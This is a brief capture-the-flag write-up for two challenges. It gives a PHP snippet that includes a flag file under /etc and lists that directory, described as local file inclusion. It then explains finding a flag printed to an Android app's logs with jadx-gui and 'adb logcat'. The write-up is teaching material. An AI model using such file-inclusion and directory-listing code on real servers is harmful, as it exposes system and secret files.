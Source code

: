This post has writeup for two challenges: `WTF PHP (Web)` and `ezpz (Android app reversing)` 

## 1. WTF php

This challenge has the local file inclusion (LFI) vulnerability. The solution is as follows:
1. Use opendir() and readdir() to list the contents of /etc directory.
2. Get the name of the txt file containing the flag (f1@g.txt).
3. Use the include directive to read the file. The code is as follows
```php
<?php
	include '/etc/f1@g.txt';	
	$filelist = array();
	if ($handle = opendir("/etc")) {
    	while ($entry = readdir($handle)) {
          	$filelist[] = $entry;
    	}
	print_r($filelist);
    closedir($handle);
	}
?>
```

## 2. ezpz

In this challenge, the app exposes the flag, i.e, sensitive information in the logs. Here's how I got the flag:

1. I used jadx-gui to read the source code of the ezpz.apk file.
2. In the source code of main activity, you can see that the method isThisWhatUWant() is called (line 33).


3. Now when you go to the code of this function, it takes a snapshot of a firebase collection and prints the flag in the logs of the app.
4. So to get the flag, all you have to do is setup an emulator (like Genymotion), install the app on the emulator, run it and get the logs using the command 'adb logcat'.


